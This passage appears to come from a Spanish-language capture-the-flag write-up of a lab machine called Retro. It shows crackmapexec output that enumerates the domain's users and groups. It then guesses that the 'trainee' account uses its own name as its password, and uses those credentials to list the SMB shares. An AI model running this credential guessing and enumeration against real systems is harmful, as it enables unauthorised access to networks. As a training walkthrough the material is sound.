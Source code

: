```bash
SMB         10.10.65.176    445    DC               522: RETRO\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.10.65.176    445    DC               525: RETRO\Protected Users (SidTypeGroup)
SMB         10.10.65.176    445    DC               526: RETRO\Key Admins (SidTypeGroup)
SMB         10.10.65.176    445    DC               527: RETRO\Enterprise Key Admins (SidTypeGroup)
SMB         10.10.65.176    445    DC               553: RETRO\RAS and IAS Servers (SidTypeAlias)
SMB         10.10.65.176    445    DC               571: RETRO\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.10.65.176    445    DC               572: RETRO\Denied RODC Password Replication Group (SidTypeAlias)
SMB         10.10.65.176    445    DC               1000: RETRO\DC$ (SidTypeUser)
SMB         10.10.65.176    445    DC               1101: RETRO\DnsAdmins (SidTypeAlias)
SMB         10.10.65.176    445    DC               1102: RETRO\DnsUpdateProxy (SidTypeGroup)
SMB         10.10.65.176    445    DC               1104: RETRO\trainee (SidTypeUser)
SMB         10.10.65.176    445    DC               1106: RETRO\BANKING$ (SidTypeUser)
SMB         10.10.65.176    445    DC               1107: RETRO\jburley (SidTypeUser)
SMB         10.10.65.176    445    DC               1108: RETRO\HelpDesk (SidTypeGroup)
SMB         10.10.65.176    445    DC               1109: RETRO\tblack (SidTypeUser)
➜  content
```

- Vemos que el usuario **trainee** existe y bueno como el admin dice que han tenido dificultades para recordar contraseñas fuertes y únicas la contraseña de los usuarios tiene que ser muy fácil si probamos con la contraseña del nombre de usuario vemos que es correcta.

```bash
➜  content crackmapexec smb 10.10.65.176 -u 'trainee' -p 'trainee'
SMB         10.10.65.176    445    DC               [*] Windows 10.0 Build 20348 x64 (name:DC) (domain:retro.vl) (signing:True) (SMBv1:False)
SMB         10.10.65.176    445    DC               [+] retro.vl\trainee:trainee
```

- Vamos a enumerar los recursos compartidos por **smb**, ya que tenemos credenciales válidas.

```bash
➜  content crackmapexec smb 10.10.65.176 -u 'trainee' -p 'trainee' --shares
SMB         10.10.65.176    445    DC               [*] Windows 10.0 Build 20348 x64 (name:DC) (domain:retro.vl) (signing:True) (SMBv1:False)
SMB         10.10.65.176    445    DC               [+] retro.vl\trainee:trainee
SMB         10.10.65.176    445    DC               [+] Enumerated shares
SMB         10.10.65.176    445    DC               Share           Permissions     Remark
SMB         10.10.65.176    445    DC               -----           -----------     ------
SMB         10.10.65.176    445    DC               ADMIN$                          Remote Admin
SMB         10.10.65.176    445    DC               C$                              Default share
SMB         10.10.65.176    445    DC               IPC$            READ            Remote IPC
SMB         10.10.65.176    445    DC               NETLOGON        READ            Logon server share
SMB         10.10.65.176    445    DC               Notes           READ
SMB         10.10.65.176    445    DC               SYSVOL          READ            Logon server share
SMB         10.10.65.176    445    DC               Trainees        READ
➜  content
```
